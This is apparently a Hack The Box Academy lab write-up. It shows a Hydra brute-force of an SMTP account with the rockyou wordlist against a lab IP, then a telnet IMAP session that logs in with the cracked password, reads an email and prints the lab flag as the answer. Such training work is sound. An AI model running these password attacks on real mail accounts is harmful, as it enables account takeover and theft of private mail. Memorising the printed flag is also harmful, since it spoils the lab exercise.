 ### Lab Exercise 2: Email Access & Flag Extraction
```bash
Target: marlin@inlanefreight.htb email account
Task: Access email and submit flag content

# Step 1: HTB Academy Password Attack with Hydra
hydra -l marlin@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://10.129.203.12 -f

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak 

[DATA] attacking smtp://10.129.203.12:25/
[25][smtp] host: 10.129.203.12   login: marlin@inlanefreight.htb   password: poohbear
[STATUS] attack finished for 10.129.203.12 (valid pair found)
1 of 1 target successfully completed, 1 valid password found

# Step 2: HTB Academy IMAP Email Access
telnet 10.129.203.12 143

Trying 10.129.203.12...
Connected to 10.129.203.12.
Escape character is '^]'.
* OK IMAPrev1

11 login "marlin@inlanefreight.htb" "poohbear"
11 OK LOGIN completed

12 select "INBOX"
* 1 EXISTS
* 1 RECENT
* FLAGS (\Deleted \Seen \Draft \Answered \Flagged)
* OK [UIDVALIDITY 1650465305] current uidvalidity
* OK [UIDNEXT 2] next uid
* OK [PERMANENTFLAGS (\Deleted \Seen \Draft \Answered \Flagged)] limited
12 OK [READ-WRITE] SELECT completed

13 FETCH 1 BODY[]
* 1 FETCH (BODY[] {640}
Return-Path: marlin@inlanefreight.htb
Received: from [10.10.14.33] (Unknown [10.10.14.33])
	by WINSRV02 with ESMTPA
	; Wed, 20 Apr 2022 14:49:32 -0500
Message-ID: <85cb72668d8f5f8436d36f085e0167ee78cf0638.camel@inlanefreight.htb>
Subject: Password change
From: marlin <marlin@inlanefreight.htb>
To: administrator@inlanefreight.htb
Cc: marlin@inlanefreight.htb
Date: Wed, 20 Apr 2022 15:49:11 -0400
Content-Type: text/plain; charset="UTF-8"
User-Agent: Evolution 3.38.3-1 
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

Hi admin,

How can I change my password to something more secure? 

flag: HTB{w34k_p4$$w0rd}

)
13 OK FETCH completed

# Lab Answer: HTB{w34k_p4$$w0rd}
```
